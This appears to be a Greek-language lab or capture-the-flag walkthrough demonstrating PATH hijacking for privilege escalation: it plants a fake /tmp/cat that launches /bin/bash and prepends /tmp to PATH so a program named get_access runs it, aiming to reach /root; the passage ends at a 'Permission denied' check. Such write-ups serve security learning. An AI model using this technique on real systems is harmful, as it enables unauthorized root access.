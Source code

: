 
```bash
which cat 
```

<font color="#646a73">Output:</font>
```
/usr/bin/cat
```


Ψαχνουμε να δουμε τι περιεχει το $PATH

```bash
echo $PATH
```

<font color="#646a73">Output:</font>
```
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```


Δημιουργουμε ενα νεο αρχειο στο directory tmp και θετουμε σαν περιεχομενο την εντολη `/bin/bash`. 

```bash
echo '/bin/bash' >> /tmp/cat
```


Κανουμε το προγραμμα `/tmp/cat` executable ωστε να μπορει να τρεχει 

```bash
chmod +x /tmp/cat
```


Στοχος μας ειναι να πειραξουμε το PATH, ωστε οταν καλει την cat, να μην καλει την `/usr/bin/cat` αλλα την `/tmp/cat`. Για αυτο βαζουμε πρωτα στο PATH τον φακελο temp.


```bash
export PATH=/tmp:$PATH
```
<font color="#646a73">Output:</font>
```
/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```


Βλεπουμε οτι βαλαμε κανονικα τον φακελο tmp στο path, αρα το cat που βρισκεται στο tmp μπορει να το καλεσει το προγραμμα get_access. 

Ολη αυτη τη διαδικασια την κανουμε για να μπουμε στον φακελο root, στον οποιο δεν εχουμε προσβαση με αλλον λογαριασμο εκτος απο τον root. 

Ελεγχουμε οτι δεν μπορουμε να μπουμε στον φακελλο oot 

```bash
cd /root/
```

<font color="#646a73">Output:</font>
```
-bash: cd: /root/: Permission denied
```
